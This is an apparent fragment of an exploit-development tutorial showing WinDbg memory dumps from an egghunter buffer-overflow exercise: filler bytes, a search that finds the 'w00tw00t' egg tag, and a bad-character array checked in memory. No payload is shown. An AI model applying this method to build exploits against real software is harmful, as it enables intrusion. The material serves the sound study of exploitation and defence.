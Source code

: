 ```c
04b381aa  44444444
04b381ae  44444444
04b381b2  44444444
04b381b6  44444444
04b381ba  44444444
04b381be  44444444
04b381c2  44444444
04b381c6  44444444
04b381ca  44444444
04b381ce  44444444
04b381d2  44444444
04b381d6  44444444
04b381da  44444444
04b381de  44444444
04b381e2  44444444
04b381e6  44444444
04b381ea  44444444
04b381ee  44444444
04b381f2  44444444
04b381f6  44444444
04b381fa  44444444
04b381fe  44444444
04b38202  44444444
04b38206  44444444
```

Fantastic, just after our egg:
```c
0:008> s -a 0x0 L?80000000 w00tw00t
04b38186  77 30 30 74 77 30 30 74-44 44 44 44 44 44 44 44  w00tw00tDDDDDDDD
```

Lastly, we have checked if badchars are present in all of the code we have inserted but not on the payload that is going to execute. Let's insert a badchar array and check if any of the badchars is present:
```c
0:008> s -a 0x0 L?80000000 w00tw00t
04c38186  77 30 30 74 77 30 30 74-01 02 03 04 05 06 07 08  w00tw00t........
0:008> db 04c38186  L110
04c38186  77 30 30 74 77 30 30 74-01 02 03 04 05 06 07 08  w00tw00t........
04c38196  09 0b 0c 0e 0f 10 11 12-13 14 15 16 17 18 19 1a  ................
04c381a6  1b 1c 1d 1e 1f 20 21 22-23 24 26 27 28 29 2a 2b  ..... !"#$&'()*+
04c381b6  2c 2d 2e 2f 30 31 32 33-34 35 36 37 38 39 3a 3b  ,-./0123456789:;
04c381c6  3c 3d 3e 3f 40 41 42 43-44 45 46 47 48 49 4a 4b  <=>?@ABCDEFGHIJK
04c381d6  4c 4d 4e 4f 50 51 52 53-54 55 56 57 58 59 5a 5b  LMNOPQRSTUVWXYZ[
04c381e6  5c 5d 5e 5f 60 61 62 63-64 65 66 67 68 69 6a 6b  \]^_`abcdefghijk
04c381f6  6c 6d 6e 6f 70 71 72 73-74 75 76 77 78 79 7a 7b  lmnopqrstuvwxyz{
04c38206  7c 7d 7e 7f 80 81 82 83-84 85 86 87 88 89 8a 8b  |}~.............
04c38216  8c 8d 8e 8f 90 91 92 93-94 95 96 97 98 99 9a 9b  ................
04c38226  9c 9d 9e 9f a0 a1 a2 a3-a4 a5 a6 a7 a8 a9 aa ab  ................
04c38236  ac ad ae af b0 b1 b2 b3-b4 b5 b6 b7 b8 b9 ba bb  ................
04c38246  bc bd be bf c0 c1 c2 c3-c4 c5 c6 c7 c8 c9 ca cb  ................
04c38256  cc cd ce cf d0 d1 d2 d3-d4 d5 d6 d7 d8 d9 da db  ................
04c38266  dc dd de df e0 e1 e2 e3-e4 e5 e6 e7 e8 e9 ea eb  ................
04c38276  ec ed ee ef f0 f1 f2 f3-f4 f5 f6 f7 f8 f9 fa fb  ................
04c38286  fc fd fe ff 
```
